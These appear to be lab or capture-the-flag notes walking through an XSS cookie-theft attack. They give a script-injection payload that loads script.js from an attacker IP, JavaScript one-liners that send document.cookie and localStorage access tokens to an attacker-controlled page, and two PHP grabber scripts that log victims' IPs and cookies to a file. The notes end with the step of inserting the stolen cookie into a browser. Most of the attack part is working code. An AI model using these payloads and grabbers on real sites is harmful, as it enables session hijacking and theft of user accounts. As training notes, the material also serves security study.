







2. Steal Cookies (with an Attacker WebServer)
Inject a payload that through javascript will load an external file (script.js) on the attacker machine that in turn will load a php file (index.php) always hosted on the attacker machine
0. Once found the payload to use to request an external file
payload:
"><script+src=http://10.10.15.91/script.js></script>1.
script.js: write a javasript payload in script.js to steal the cookies in the attacker listening machine
Use one of the following payloads to send the cookies of the target victim to the controlled page(OUR_IP)
PayloadAllTheThings:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss document.location='http://OUR_IP/index.php?c='+document.cookie
document.location='http://OUR_IP/index.php?c='+localStorage.getItem('access_token')new Image().src="http://OUR_IP/index.php?c="+document.cookie;
new Image().src="http://OUR_IP/index.php?c="+localStorage.getItem('access_token'); The content of script.js will let to the victim request for the
index.php page(always on the attacker machine) + sending the cookies of the victim
Note: if we write the payload in a file we do not need to use <script>
2.
index.php: Save the Data Grabber file
◇ Simple Cookie Grabber
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
◇ if there were many cookies, we may not know which cookie value belongs to which cookie header.
So, we can use the following PHP script to split them with a new line and write them to a file. In this case, even if multiple victims trigger the XSS exploit, we'll get all of their cookies ordered in a file.
<?php
if (isset($_GET['c'])) {
$list = explode(";", $_GET['c']);
foreach ($list as $key => $value) {
$cookie = urldecode($value);
$file = fopen("cookies.txt", "a+");
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
fclose($file);
}
}
?>
3. Re-run the PHP server again
4. Request for the script.js
payload:
"><script+src=http://10.10.15.91/script.js></script> ◇ "> → is been used to close the request before
◇<script+src=http://OUR_IP/script.js></script> → to include an external file we need this format
https://www.w3schools.com/tags/att_script_src.asp 7. In the PHP server listening we should have a request for script.js that in turn request index.php
 9. Let's check the value of cookies.txt generated by index.php
◇ This would be the file generated by the simple cookie grabber of point 2
 ◇ This is the file generated by the more complex cookie grabber. The Victim Ip is the one of the WebServer
 7. Once we have the the cookie we can insert it int the Storage Cookies
